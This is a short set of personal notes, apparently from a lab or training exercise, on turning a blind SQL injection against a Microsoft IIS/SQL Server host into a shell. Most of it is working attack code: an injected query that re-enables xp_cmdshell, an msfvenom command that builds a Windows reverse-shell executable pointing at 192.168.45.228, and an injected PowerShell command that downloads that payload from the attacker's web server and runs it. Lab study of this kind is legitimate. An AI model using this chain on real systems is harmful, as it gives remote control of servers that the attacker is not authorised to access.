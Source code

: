 Found my old notes and can continue, want to learn the newer concepts. Actuall first, lets figure out how I would know the system using this injections.. From the new research I have not found to OS of this box

Well, breezing thru the old notes, just seeing the fact that it is an Microsoft IIS should be enough to google and find something along the lines of enable remote code execution.

Now I see I arrived here by researching how to exploint the blind injection founnd [[SLQ Injection found]]. To enable the xp_command shell needs to be renabled as shown [[#Injection]]


# injection
Enabeling xp_cmdshell
```sql
1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE--
```

Generate rev shell payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.228 LPORT=4444 -f exe > reverse121.exe

```

Starting web server on host
```bash
' EXECUTE xp_cmdshell 'powershell.exe Invoke-WebRequest "http://192.168.45.228:8888/reverse121.exe" -OutFile "C:\Users\Public\Downloads\reverse121.exe";C:\Users\Public\Downloads\reverse121.exe'--
```

Shell recived on to [[priv esc]]